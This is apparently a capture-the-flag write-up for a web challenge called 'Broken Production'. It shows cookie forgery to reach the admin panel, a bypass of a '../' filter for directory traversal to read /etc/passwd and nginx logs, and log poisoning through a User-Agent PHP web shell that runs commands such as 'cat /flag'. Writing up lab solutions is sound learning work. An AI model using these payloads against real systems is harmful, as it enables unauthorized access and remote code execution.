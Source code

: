 # 🍪 Broken Production - 550pts

```
💡 Uses cookie manipulation & PHP injection into User-Agent header
```

### Enumeration

Looking at the login page, one thing of note is the `registration` redirect

- With any login page, I immediately assume that reaching `admin` status is the goal
- Create a basic account with a password and login with the account’s info
    - If watching in **BurpSuite** or navigating to ******************************Inspect Element,****************************** your cookies have changed
    - Inspect Element ⇒ Application Tab ⇒ Cookies
    
    ![image of chrome navigation to application tab](/assets/brokenproduction1.png)
    

The cookie name is `PHPSESSID` and the value should be a `Base64 encoding`

- Example: `eyJ1c2VybmFtZSI6InVzZXIifQ==` ⇒ `{"username":"user"}`
- Assuming that “admin” is a pre-existing user, changing `PHPSESSID` original value to a Base64 version of admin should validate you
    - `eyJ1c2VybmFtZSI6ImFkbWluIn0=` ⇒ `{"username":"admin"}`

You can change your cookie value by simply double-clicking or right click + “edit” on a browser

Reloading the page leads you to the `admin panel` 

---

### Admin.php

This is where I actually care about the other files provided. 

```php
<?php

$utilFile = "tickets.php";

if (isset($_GET['util']))
	$utilFile = $_GET['util'];
	$utilFile = str_replace("../","", $utilFile); // MOST ANNOYING THING EVER - Hannah

$fullPath = '/www/utils/'.$utilFile;

?>
```

Explanation:

- If the `GET` parameter is set with `util`, it will replace the file being shown on the admin screen from `tickets.php` (useless) to whatever you set after `util`
- `str_replace("../","", $utilFile);` will replace “../”  with nothingness, we will find a way around this “security measure”.
    - This is where I 100% knew it involved `directory traversal` since it tries to prevent it (badly)

---

### [Directory Traversal](https://owasp.org/www-community/attacks/Path_Traversal) <= Link to good guide

Using the URL and our admin cookie, we will try to traverse, incrementally going to the next parent directory until get to where we want

- I am putting this out here as just a thought I considered while solving:
    - This is to let you know that this could have been a possibility
    - I thought that maybe one of the [PHP files they included was actually a payload for remote code execution](https://huntr.dev/bounties/b5f31d5e-ec54-438d-903e-7656666881c8/)
- `/etc/passwd` is a common file used to demonstrate **directory traversal**
- “`….//`” is double the amount of dots and dashes for traversal to make up for half of them being deleted by `admin.php`
- The amount of parent directories that I traversed was simply determined by brute force

`http://<ip>:<>port/?util=....//....//....//....//....//etc/passwd`

The previous URL was important to determine the `full path to the root directory`

---

### logs.php

I have only included what is relevant 

```php
<div class="container">
		<p>Viewing log file : /var/log/nginx/access.log</p>
```

Now we have the path for the `access.log` file

`http://<ip>:<>port/?util=....//....//....//....//....//var/log/nginx/access.log`

- The output of this shows that there is a file named `flag_[HUMONGUS STRING OF CHARACTERS]` here

---

### [Log Poisoning Technique](https://www.notion.so/Broken-Production-550pts-aeb23c5533bf4386be3f2fc6c94490c7?pvs=21)

> ***LFI** (Local File Inclusion) is a web vulnerability that allows an attacker to access server files by manipulating paths in HTTP requests.*
> 
> 
> ***RFI** (Remote File Inclusion) is a web vulnerability that allows an attacker to include remote files in the application’s code, which can result in the execution of unauthorized code on the web server.*
> 
> ***Log Poisoning**: It involves reading a log file through a “file inclusion” (LFI) and modifying the text of the headers (e.g., User-agent) to write arbitrary code and achieve its execution (RCE) on the victim machine.*
> 

What we just did is called `LFI`, when I mentioned previously about injecting PHP code? That would be considered `RFI`

- Since `RFI` did not work, we move onto `Log Poisoning`

We will target the `User-Agent` header and change it to `inject PHP code` which allows us to execute command line functions

- **[How to Change User Agents in Chrome, Edge, Safari & Firefox](https://www.searchenginejournal.com/change-user-agent/368448/)**
- Change the User-Agent to the following:

`User-Agent: <?php system($_GET['cmd']); ?>`

Finally, utilize this new ability by formatting your last URL as so

- I put a `*` as a wildcard indicator because there was 0 way I was gonna keep the whole flag file name
- `%20` is simply a URL encoding for a space character
    - The command you want to run is just `cat /flag*` but converted ⇒ `cat%20/flag`

`http://<ip>:<>port/?util=....//....//....//....//....//var/log/nginx/access.log&cmd=cat%20/flag` 

The flag should be displayed on the webpage now
